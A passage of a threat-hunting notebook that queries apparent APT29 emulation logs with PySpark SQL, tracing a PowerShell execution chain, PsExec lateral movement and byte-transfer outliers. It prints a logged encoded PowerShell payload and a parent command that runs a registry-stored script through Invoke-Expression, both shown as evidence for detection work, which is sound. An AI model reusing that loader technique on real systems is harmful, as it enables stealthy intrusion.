EgANwBEAFgAdwBCAFQANwBpAEgASABBAGUASgBKAC8ARQBOAE4ARAB3AG8ANgB5AFcAawA2AG8AaAAxAFAAVgBoAFEAeABsADQAQgBVAGsAVAAvAHIAZQBtAFYAMABPAHgASwBJAFoAZABYAEUASQBBAE8AMwAyAFUASABXAEYATwBSAFEANgBQAG4ARAB2AGkAMwB0AHoAcwBNADcAMwB3AEYAUwBzAFUANQBSAGwASgBhAEcAZgB3ADAAbAB6AFMANABLAEYARQBjAFYAZQBTAFYAQwBqAGoATwB3AC8AcQBUAG0ATAB0ADgAdgBpAE4AMwBlADcATwBXAFgARQBSAFIAawA3AHEASgB0AEoATwB4AFQAMwAxAHUAcAB4AGwATABFADAAZAB5AEYAagBFAFAAbgBJAFMAcgBCAEwARQBPAFYAQQBsAEkAUQBXADgAYgBDADIAcwBZAGgALwBzAEYAcAA4AEUANABZADYAbwBoAFQASwBIAHoAUQB0AEkAUQAxAEEANABlAEYAYgBqAE4AZABCAEMAZwA1AEMAegBxAFcAeQBoAFoAawBaAEoAaABTAEgAdwBMAEUAOQA3AGcAWgBGAFAAaAB6AHUAZgBZAGwAdgB5AHcAYgA1ADIAQwB0ACsANwA5ADIAaABnAG4AZgBsAHkAbABFADQAaABQAC8ASwBOADAAaQB0AFIAVwBOAFcARQBoAHkAUwBNAHUAZwBaAEgATgBGAHQAKwBmAHcAWAAyADYAKwBhAEIAWABoAFIAVAAvAEUAKwBBACsATABoAFQARAB4AG8ARwA4AFoAcgB1AFUAQgBRAEwAVQBwADUATABlADQAUgAyAGMAYQBmAE0AbwBqAGQAUwBPAE4AUQBRAHgAbQArAHEAdQA0AGEAZwAvAGkAKwBvAHAAUABHAFoAYgA4AFIAdgA2AGoAdwA2AE0AWgB3ADQARwBpAFcANwBVAHoATgByAHQAZQBtAGwAcwBtAHMAaQBVADQANgBkAGgAQwBZAFIARABGADkAMgBHADkAcwAzAGUAOAB6AE8AYgBrAGQAagBWAHAAdABxADkARgBTADAAOABZADYAbQBLAHQAbQBaAHUAbwB0AGIAVABOAFEATgBOAFYAdABrAFEAOQBPAFcANwBOAHQAawBDAFAAMQB6AHUAQgBwAGIAYQBxAGUARgB2AHIAMwAvAHEAUwArAE0AdgB2AEIAdgBRAG0ARwA2AGgAMwBmADkATwBHAHQAbQBZAEcAcgB5AFYAUABaADEAMgBTAGoAMwByAEcAMABRAEMAZQB5ADYAbAB1AEQAMQBxAEMAcQBUAE0AMQBLAGoAVwByAGsAeABUAEkAdAB0AFQAVQArADIAagB2AGEAMABhAHYAVgAxAHYAMQA2AHAAUABhADYAYgBUAFUAdwA3AGoAeABEAE8AVABlADIAOABzADkAYwBmAHYAcgBjADcARABUADAANwBkADcAbAArADgARQBrADAANABrAE8AZABuAFIAagBNAG4AQQBDAFAASABZAFMAYgBhAHcAYgAwADQARwBUAG0AUAA1AGYASwAzAC8AZwBkAEMAcABWAEkAOQBDAEEAYgBwAEoAMQBKADcARQBxADgAQwBnAEsANABNAEIARwAxAHUAUABsAEIAUgBwAGYASgBvACsAaABJAHcATgBHAFkAOAB1AE0AQQBzAHUAZAAxADAAYwB0AE4AOQBRAHEARgBjAGQAVwBlAGkAYgBCAHgAbQBqADgATABLADkAWAB1AHIAegBlAE8ARAAyAFEAaQBhACsAYwBLAEkAdwA0AHIARwBxAC8ANABsAHkAcABLADcANQBhADMANAAzAE0AdgBEAHUAYQBWAEQAdABQAGEAdAA1AFQATgBRAFMANgBOAE4AQwBsADUAaQBzAGQAOABOAC8ASgBJAHAALwBMAEoALwBkAGsAVwBtAGsAZQA1AFIAcwAxAHYAbABwADYAegArAHYANgA0ADIAZwBnAFQAdwAyADMAYQBvAGQAVABOAHIAaAB3AG4AcQB4ADcAZQA0ADMATwA5AFgAUAB2AHAAVwBkADIAbQA4AHkAZQBqAGgAeQA3ACsAMABKAEQAUwAxAGQAUQA3AHoAegBRAGUAMABaAHQAMAB3AHUAaABiADQAUwAyAGIARAB2AFgAZwB6AHQANwBPAE0ASgBHADkAdwBJADkARABhAHMAVABYAHoATwBKAHkAMwAwADMASgBoAHgAagBXAHkAWgBWAHQAWABIAHIAQgAxAHYARAAyAGcAQgBpAGEANgA5AHIAbgBkAFMAeABxAGgAOABxADEAdwA3AHcAVABoAGQAMQBlAG0AMgBTAHUAYgBGAG8ASwBZAG0ARgBUAEIAVgBLAFIAMgBzAFQAcgBDADAAMAB3AEIAUAA4AFYAbwBiAEoAMQBkAEYAdgAwAEsAbgBhAFMAcwBMADUAZQAxADIAWAA4AHYALwBJAGwAcQBQAFcAaQBzAGoATgBaAG0AdABaAFUAUwBiADMAcQBqAGUAOABOAHQAZQAxAHAAcQBrAEQAUgBDAEMAdgAxAHgAcgAzAC8AawBIAGUANgBsAGYANgBuAHQAcABKAEYAMwBuAGcAYwBKAEsAdAAwAE0AWABBAFMATgByAEUAYQAyAG4AVgBRAEEAUABmAEEARABaADEASwB6AGQASgBqAEQANAA5AHkAcgBWADcAWQBJAGUAMABMACsARgBmAHMAMABuADcALwBCAGwAcwBxAHEAcQAvADkAWABWAE8AMgAzAGwAdwBPAHkAYgBZADMATABMAHoAdQBQAHoAYQB3AE8AZQAxAG0ASQBXAG8AbwAwAEUAOQByAHEAcgBnAGwAOQBlAGUAcgBKAFIAZwBvAFIAcQBVAFkANwBCAGkAcQBEADIAdQBYAE4AcwBmADMALwBQAGoAQwBPAGUAeAA0AEcARwA1AFEAMQA4AGQAdABKACsATgB4AFMANQBLAHMAdwBCAFIATwBJAEEAdwA4AEEANwB0AHoAbwBoAFQAWQB6AC8ARgArAGoASABoAEUAcQBMAEkANwB6AHoAUABPAEkAMAB3AGgAVgBzAEQAMwBDAHMATwBqAFUATwBsAE4ASABiADUAQQBJAFYAeABCADYATgA3AE4AMQBEADUAZgBMAGQAaABlAFgASAArADUAawBvAFMAagBvAHoAUwB0ADcAbAA2AEkATgAzAGMAVABNAEYARgA2AEUAUABiAFoAbABIAHUANABNAGgAbgBRAFUAbABlAFgAOABnAHkAagBFAHAANQBYAFoAVQBoAHkATgArAFAAcQB4ADQAbgBHADMARwBuAHEAOABSAG4ANwBRADYAYQBvADMAcQA2AFYAUwAvAHgATABsAFcAWQB0ADYANAAvAC8ASwArAFkANwBWAHQAagBBAEMALwB2ADEANQBoADkAbwAvADMAaQA2ADIALwBoAEsASgBmADIARQBmADkAQQAvADUANwB3AFIANgBEACsAYQBlAEIAagBSAEIAZwB3AFcAdABEAFkASwBkADUAZABLAGQANgBLAGYAMQA4AGUAcgArADUAYQBQAEMAVwBRACsALwBuACsANABWAGYAbAB1ADUAeQBkADkAZQBBAEsAZABuAHIAeQBMAC8AdwBMAHYAcwAyAFIAQwB3AEEAQQAnACcAKQApACkALABbAFMAeQBzAHQAZQBtAC4ASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAKQAuAFIAZQBhAGQAVABvAEUAbgBkACgAKQApACkAJwA7ACQAcwAuAFUAcwBlAFMAaABlAGwAbABFAHgAZQBjAHUAdABlAD0AJABmAGEAbABzAGUAOwAkAHMALgBSAGUAZABpAHIAZQBjAHQAUwB0AGEAbgBkAGEAcgBkAE8AdQB0AHAAdQB0AD0AJAB0AHIAdQBlADsAJABzAC4AVwBpAG4AZABvAHcAUwB0AHkAbABlAD0AJwBIAGkAZABkAGUAbgAnADsAJABzAC4AQwByAGUAYQB0AGUATgBvAFcAaQBuAGQAbwB3AD0AJAB0AHIAdQBlADsAJABwAD0AWwBTAHkAcwB0AGUAbQAuAEQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA=
ParentProcessId | 8588
ParentImage | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentCommandLine | powershell.exe -c "Get-ItemPropertyValue 'HKLM:\\SOFTWARE\Javasoft' 'value Supplement' | Invoke-Expression"
CommandLineLength | 7106
This event might represent the potential execution of a PowerSheel script :O
Let’s get all the Sysmon events related to its ProcessId 8704 as a Child
process8704 = spark.sql(
'''
SELECT EventID , count(*) as count
FROM apt29HostDay1
WHERE ProcessId = 8704
GROUP BY EventID
ORDER BY count DESC
''')
process8704.show(truncate = False)
+-------+-----+
|EventID|count|
+-------+-----+
|12 |236 |
|7 |84 |
|11 |3 |
|23 |3 |
|17 |2 |
|13 |2 |
|5 |1 |
|1 |1 |
|18 |1 |
|10 |1 |
+-------+-----+
It is common to start looking for PowerShell events because it is a tool that enables a lot of other techiques. We should also focus on the events related to this process to identify other behaviors and techniques.
Notes: 12 (Registry creation and deletion), 7 (Image Loaded), 11 (File Creation), 23 (File Delete), 17 (Pipe Created), 13 (Registry Modification), 1 (Process Creation), 10 (Process Access), 18 (Pipe Connected), 5 (Process Terminated)
d) Let’s now analyze information of Sysmon 3: Network Connection¶
Let’s query the info for this event and calculate the most frequent pair or IPs (Source -> Destination):
sysmon3 = spark.sql(
'''
SELECT concat_ws(' <--> ',SourceIp,DestinationIp) as SourceDestinationIP, count(*) as count
FROM apt29HostDay1
WHERE Channel = "Microsoft-Windows-Sysmon/Operational"
AND EventID = 3
AND NOT SourceIp = DestinationIp
AND (SourceIp = "10.0.1.4" OR SourceIp = "10.0.1.5" OR SourceIp = "10.0.1.6")
GROUP BY concat_ws(' <--> ',SourceIp,DestinationIp)
ORDER BY count DESC
''')
sysmon3.show(truncate = False)
+-----------------------------+-----+
|SourceDestinationIP |count|
+-----------------------------+-----+
|10.0.1.6 <--> 192.168.0.4 |348 |
|10.0.1.4 <--> 10.0.0.4 |160 |
|10.0.1.6 <--> 10.0.0.4 |88 |
|10.0.1.4 <--> 10.0.1.6 |34 |
|10.0.1.5 <--> 10.0.0.4 |18 |
|10.0.1.4 <--> 192.168.0.4 |8 |
|10.0.1.4 <--> 168.61.186.235 |7 |
|10.0.1.4 <--> 23.4.15.75 |4 |
|10.0.1.4 <--> 52.167.250.154 |4 |
|10.0.1.4 <--> 23.56.173.48 |4 |
|10.0.1.4 <--> 10.0.1.255 |4 |
|10.0.1.6 <--> 52.167.250.154 |4 |
|10.0.1.4 <--> 192.168.0.5 |3 |
|10.0.1.5 <--> 10.0.1.255 |3 |
|10.0.1.6 <--> 10.0.1.255 |3 |
|10.0.1.4 <--> 239.255.255.250|2 |
|10.0.1.4 <--> 72.21.81.200 |2 |
|10.0.1.4 <--> 40.90.137.124 |1 |
|10.0.1.5 <--> 52.114.159.32 |1 |
|10.0.1.6 <--> 52.114.159.32 |1 |
+-----------------------------+-----+
only showing top 20 rows
e) So, Is this all the potential of PySpark.SQL?… “JOIN” me in learning more about it :D¶
Let’s take a look at the Lateral Movement tactic accomplished during Day 1:


Let’s query the host data for day 1 using Security 4624 (Account Successfully Logged On) event as a reference:
lateralMovement = spark.sql(
'''
SELECT
o.Hostname, o.EventID, o.SubjectUserName, o.SubjectLogonId,
a.TargetUserName, a.TargetLogonId, a.IpAddress
FROM apt29HostDay1 o
INNER JOIN (
SELECT Hostname, TargetUserName, TargetLogonId, IpAddress
FROM apt29HostDay1
WHERE LOWER(Channel) = 'security'
AND EventID = 4624
AND LogonType = 3
AND NOT IpAddress LIKE "%-%"
AND NOT TargetUserName LIKE "%$"
) a
ON o.SubjectLogonId = a.TargetLogonId
WHERE LOWER(o.Channel) = 'security'
''')
print("There are ", lateralMovement.count(), ' records.')
lateralMovement.show(truncate = False)
There are 94 records.
+---------------------+-------+---------------+--------------+--------------+-------------+---------+
|Hostname |EventID|SubjectUserName|SubjectLogonId|TargetUserName|TargetLogonId|IpAddress|
+---------------------+-------+---------------+--------------+--------------+-------------+---------+
|NEWYORK.dmevals.local|5140 |pbeesly |0x5dd594 |pbeesly |0x5dd594 |10.0.1.4 |
|NEWYORK.dmevals.local|5145 |pbeesly |0x5dd594 |pbeesly |0x5dd594 |10.0.1.4 |
|NEWYORK.dmevals.local|4661 |pbeesly |0x5dd594 |pbeesly |0x5dd594 |10.0.1.4 |
|NEWYORK.dmevals.local|4658 |pbeesly |0x5dd594 |pbeesly |0x5dd594 |10.0.1.4 |
|NASHUA.dmevals.local |4672 |pbeesly |0x861a79 |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5140 |pbeesly |0x861a79 |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |4672 |pbeesly |0x861ac7 |pbeesly |0x861ac7 |10.0.1.4 |
|NASHUA.dmevals.local |4672 |pbeesly |0x861ad9 |pbeesly |0x861ad9 |10.0.1.4 |
|NASHUA.dmevals.local |4672 |pbeesly |0x861aec |pbeesly |0x861aec |10.0.1.4 |
|NASHUA.dmevals.local |4672 |pbeesly |0x866b2c |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5140 |pbeesly |0x866b2c |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5140 |pbeesly |0x866b2c |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |pbeesly |0x866b2c |10.0.1.4 |
+---------------------+-------+---------------+--------------+--------------+-------------+---------+
only showing top 20 rows
Let’s take a look at Security 5145 (A network share object was checked) event:
lateralMovement = spark.sql(
'''
SELECT
o.Hostname, o.EventID, o.SubjectUserName, o.SubjectLogonId, o.ShareName, o.ShareLocalPath, o.RelativeTargetName,
a.TargetUserName, a.TargetLogonId, a.IpAddress
FROM apt29HostDay1 o
INNER JOIN (
SELECT Hostname, TargetUserName, TargetLogonId, IpAddress
FROM apt29HostDay1
WHERE LOWER(Channel) = 'security'
AND EventID = 4624
AND LogonType = 3
AND NOT IpAddress LIKE "%-%"
AND NOT TargetUserName LIKE "%$"
) a
ON o.SubjectLogonId = a.TargetLogonId
WHERE LOWER(o.Channel) = 'security'
AND EventID = 5145
''')
print("There are ", lateralMovement.count(), ' records.')
lateralMovement.show(45, truncate = False)
There are 45 records.
+---------------------+-------+---------------+--------------+----------+--------------+-----------------------------+--------------+-------------+---------+
|Hostname |EventID|SubjectUserName|SubjectLogonId|ShareName |ShareLocalPath|RelativeTargetName |TargetUserName|TargetLogonId|IpAddress|
+---------------------+-------+---------------+--------------+----------+--------------+-----------------------------+--------------+-------------+---------+
|NEWYORK.dmevals.local|5145 |pbeesly |0x5dd594 |\\*\IPC$ |null |samr |pbeesly |0x5dd594 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |\\*\ADMIN$|\??\C:\windows|Temp\python.exe |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |\\*\ADMIN$|\??\C:\windows|Temp |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |\\*\ADMIN$|\??\C:\windows|Temp\python.exe |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x861a79 |\\*\ADMIN$|\??\C:\windows|Temp\python.exe |pbeesly |0x861a79 |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\ADMIN$|\??\C:\windows|\ |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\IPC$ |null |svcctl |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\IPC$ |null |PSEXESVC |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\IPC$ |null |PSEXESVC-SCRANTON-2668-stdin |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\IPC$ |null |PSEXESVC-SCRANTON-2668-stdout|pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\IPC$ |null |PSEXESVC-SCRANTON-2668-stderr|pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\IPC$ |null |svcctl |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x866b2c |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x866b2c |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\ADMIN$|\??\C:\windows|\ |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\IPC$ |null |svcctl |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\IPC$ |null |PSEXESVC |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\IPC$ |null |PSEXESVC-SCRANTON-5924-stdin |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\IPC$ |null |PSEXESVC-SCRANTON-5924-stdout|pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\IPC$ |null |PSEXESVC-SCRANTON-5924-stderr|pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\IPC$ |null |svcctl |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86a8df |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x86a8df |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\ADMIN$|\??\C:\windows|\ |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\IPC$ |null |svcctl |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\IPC$ |null |PSEXESVC |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\IPC$ |null |PSEXESVC-SCRANTON-1412-stdin |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\IPC$ |null |PSEXESVC-SCRANTON-1412-stdout|pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\IPC$ |null |PSEXESVC-SCRANTON-1412-stderr|pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\IPC$ |null |svcctl |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x86d84f |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x86d84f |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\ADMIN$|\??\C:\windows|\ |pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\IPC$ |null |svcctl |pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\IPC$ |null |PSEXESVC |pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\IPC$ |null |PSEXESVC-SCRANTON-8928-stdin |pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\IPC$ |null |PSEXESVC-SCRANTON-8928-stdout|pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\IPC$ |null |PSEXESVC-SCRANTON-8928-stderr|pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\IPC$ |null |svcctl |pbeesly |0x890aef |10.0.1.4 |
|NASHUA.dmevals.local |5145 |pbeesly |0x890aef |\\*\ADMIN$|\??\C:\windows|PSEXESVC.exe |pbeesly |0x890aef |10.0.1.4 |
+---------------------+-------+---------------+--------------+----------+--------------+-----------------------------+--------------+-------------+---------+
Now we have more context to add in our data model :D

f) Finally… let’s check some network data!! :D¶
How many byters were transferred from hosts on days 1?
bytes_from_host_day1 = spark.sql(
'''
SELECT orig_bytes
FROM apt29NetworkDay1
''')
ds.numStats(bytes_from_host_day1,'orig_bytes')
Summary of Descriptive Statistics - orig_bytes
**********************************************************
Count of values : 577
Count of Null values : 1563
Central tendency:-----------------------------------------
Mean(Average) : 26483.55
Median(Percentile 25) : 997.0
Min, Max, and Percentiles:--------------------------------
Minimum : 0.0
Maximum : 4261160.0
Percentile 25 (Q1) : 997.0
Percentile 75 (Q3) : 997.0
Variation:------------------------------------------------
Standard Deviation : 270959.17
Range : 4261160.0
Interquartile Range (IQR): 0.0
Shape:----------------------------------------------------
Skewness : 14.2
Kurtosis : 211.56
**********************************************************
| Statistic | Values | |
|---|---|---|
| 0 | count | 5.770000e+02 |
| 1 | Count Null Values | 1.563000e+03 |
| 2 | mean | 2.648355e+04 |
| 3 | median | 9.970000e+02 |
| 4 | min | 0.000000e+00 |
| 5 | max | 4.261160e+06 |
| 6 | percentile25 | 9.970000e+02 |
| 7 | percentile75 | 9.970000e+02 |
| 8 | stddev | 2.709592e+05 |
| 9 | range | 4.261160e+06 |
| 10 | IQR | 0.000000e+00 |
| 11 | skewness | 1.419589e+01 |
| 12 | kurtosis | 2.115600e+02 |
Let’s analyze the results in a more graphical way!! :)
vis.histogram(bytes_from_host_day1.dropna(),'orig_bytes')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f6314e50>

vis.box_plot(bytes_from_host_day1.dropna(),'orig_bytes')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f62e7a10>
Yeah, you are right… We need to filter our data!!
bytes_from_host_day1 = spark.sql(
'''
SELECT orig_bytes
FROM apt29NetworkDay1
WHERE orig_bytes <= 1500
''')
vis.histogram(bytes_from_host_day1.dropna(),'orig_bytes')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f621dc10>
vis.box_plot(bytes_from_host_day1.dropna(),'orig_bytes')
<matplotlib.axes._subplots.AxesSubplot at 0x7f81f6120310>
Let’s take a look at the atipic values for bytes transfered
bytes_from_host_day1 = spark.sql(
'''
SELECT id_orig_h,id_orig_p,id_resp_h,id_resp_p, orig_bytes
FROM apt29NetworkDay1
WHERE (orig_bytes >= 1500 AND NOT orig_bytes LIKE 'NaN')
ORDER BY orig_bytes DESC
''')
print(bytes_from_host_day1.count())
bytes_from_host_day1.show(truncate = False)
67
+---------+---------+-----------+---------+----------+
|id_orig_h|id_orig_p|id_resp_h |id_resp_p|orig_bytes|
+---------+---------+-----------+---------+----------+
|10.0.1.4 |60803.0 |10.0.1.6 |445.0 |4261160.0 |
|10.0.1.4 |60803.0 |10.0.1.6 |445.0 |4261160.0 |
|10.0.1.4 |60760.0 |192.168.0.4|80.0 |2181167.0 |
|10.0.1.4 |60807.0 |10.0.1.6 |445.0 |527368.0 |
|10.0.1.4 |60807.0 |10.0.1.6 |445.0 |527368.0 |
|10.0.1.4 |60806.0 |10.0.1.6 |445.0 |527300.0 |
|10.0.1.4 |60806.0 |10.0.1.6 |445.0 |527300.0 |
|10.0.1.4 |60646.0 |192.168.0.5|443.0 |524399.0 |
|10.0.1.4 |60853.0 |10.0.1.6 |445.0 |193919.0 |
|10.0.1.4 |60853.0 |10.0.1.6 |445.0 |193919.0 |
|10.0.1.4 |60811.0 |10.0.1.6 |445.0 |193627.0 |
|10.0.1.4 |60824.0 |10.0.1.6 |445.0 |193627.0 |
|10.0.1.4 |60824.0 |10.0.1.6 |445.0 |193627.0 |
|10.0.1.4 |60811.0 |10.0.1.6 |445.0 |193627.0 |
|10.0.1.4 |60597.0 |192.168.0.5|1234.0 |70042.0 |
|10.0.1.4 |60771.0 |10.0.1.6 |5985.0 |24430.0 |
|10.0.1.4 |60771.0 |10.0.1.6 |5985.0 |24430.0 |
|10.0.1.4 |60784.0 |10.0.0.4 |445.0 |20849.0 |
|10.0.1.6 |57026.0 |10.0.0.4 |445.0 |20809.0 |
|10.0.1.4 |60774.0 |10.0.1.6 |5985.0 |16130.0 |
+---------+---------+-----------+---------+----------+
only showing top 20 rows
How can we correlate network and host data?
sysmon3_host_day1 = spark.sql(
'''
SELECT ProcessId, User, Image, SourcePort, DestinationPort
FROM apt29HostDay1
WHERE Channel = 'Microsoft-Windows-Sysmon/Operational'
AND EventID = 3
AND SourceIp LIKE "%10.0.1.4%"
AND DestinationIp LIKE "%192.168.0.4%"
''')
print(sysmon3_host_day1.count())
sysmon3_host_day1.show(truncate = False)
8
+---------+--------------------------+---------------------------------------------------------+----------+---------------+
|ProcessId|User |Image |SourcePort|DestinationPort|
+---------+--------------------------+---------------------------------------------------------+----------+---------------+
|3852 |DMEVALS\pbeesly |C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|59941 |80 |
|8984 |NT AUTHORITY\LOCAL SERVICE|C:\Windows\System32\svchost.exe |59942 |80 |
|8984 |NT AUTHORITY\LOCAL SERVICE|C:\Windows\System32\svchost.exe |59943 |80 |
|8984 |NT AUTHORITY\LOCAL SERVICE|C:\Windows\System32\svchost.exe |59964 |80 |
|8984 |NT AUTHORITY\LOCAL SERVICE|C:\Windows\System32\svchost.exe |59965 |80 |
|8984 |NT AUTHORITY\LOCAL SERVICE|C:\Windows\System32\svchost.exe |59966 |80 |
|8784 |DMEVALS\pbeesly |C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|49775 |443 |
|8784 |DMEVALS\pbeesly |C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe|49777 |443 |
+---------+--------------------------+---------------------------------------------------------+----------+---------------+